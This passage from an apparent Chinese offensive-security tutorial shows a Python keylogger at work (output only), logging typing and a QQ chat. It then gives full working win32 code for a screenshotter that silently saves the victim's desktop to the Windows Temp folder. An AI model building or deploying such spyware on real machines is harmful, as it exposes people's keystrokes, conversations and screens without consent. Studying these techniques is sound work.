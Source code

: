 撸代码时一定要注意严格区分大小写。检查无误后启动keylogger：

![enter image description here](http://drops.javaweb.org/uploads/images/038fcfc485c7270e69c61a31fdc3dd99f304e0f6.jpg)

然后可以尝试打开记事本写点东西，过程中可以看到我们的keylogger窗口正在对我们的输入实时记录：

![enter image description here](http://drops.javaweb.org/uploads/images/949833cafb8299baa7c01f6f19d6b5346adb9bcf.jpg)

切换窗口时会自动跟踪到新窗口（众：这点功能都没有还敢叫keylogger吗！），light教授趁机骚扰一下疯狗，可以看到我们的keylogger已经跟踪到QQ聊天窗口，并忠实的记录下我输入的一切。

![enter image description here](http://drops.javaweb.org/uploads/images/98d0e7a6f6263f39c54119198f1d0e4149c5cbe3.jpg)

0x02 看看你在干什么：编写一个screenshotter
=====

截屏实现起来更简单，直接调用几个gui相关的api即可，我们直接看代码：

```
# -*- coding: utf-8 -*-  
import win32gui
import win32ui
import win32con
import win32api

# 获取桌面
hdesktop = win32gui.GetDesktopWindow()

# 分辨率适应
width = win32api.GetSystemMetrics(win32con.SM_CXVIRTUALSCREEN)
height = win32api.GetSystemMetrics(win32con.SM_CYVIRTUALSCREEN)
left = win32api.GetSystemMetrics(win32con.SM_XVIRTUALSCREEN)
top = win32api.GetSystemMetrics(win32con.SM_YVIRTUALSCREEN)

# 创建设备描述表
desktop_dc = win32gui.GetWindowDC(hdesktop)
img_dc = win32ui.CreateDCFromHandle(desktop_dc)

# 创建一个内存设备描述表
mem_dc = img_dc.CreateCompatibleDC()

# 创建位图对象
screenshot = win32ui.CreateBitmap()
screenshot.CreateCompatibleBitmap(img_dc, width, height)
mem_dc.SelectObject(screenshot)

# 截图至内存设备描述表
mem_dc.BitBlt((0, 0), (width, height), img_dc, (left, top), win32con.SRCCOPY)

# 将截图保存到文件中
screenshot.SaveBitmapFile(mem_dc, 'c:\\WINDOWS\\Temp\\screenshot.bmp')

# 内存释放
mem_dc.DeleteDC()
win32gui.DeleteObject(screenshot.GetHandle())

```
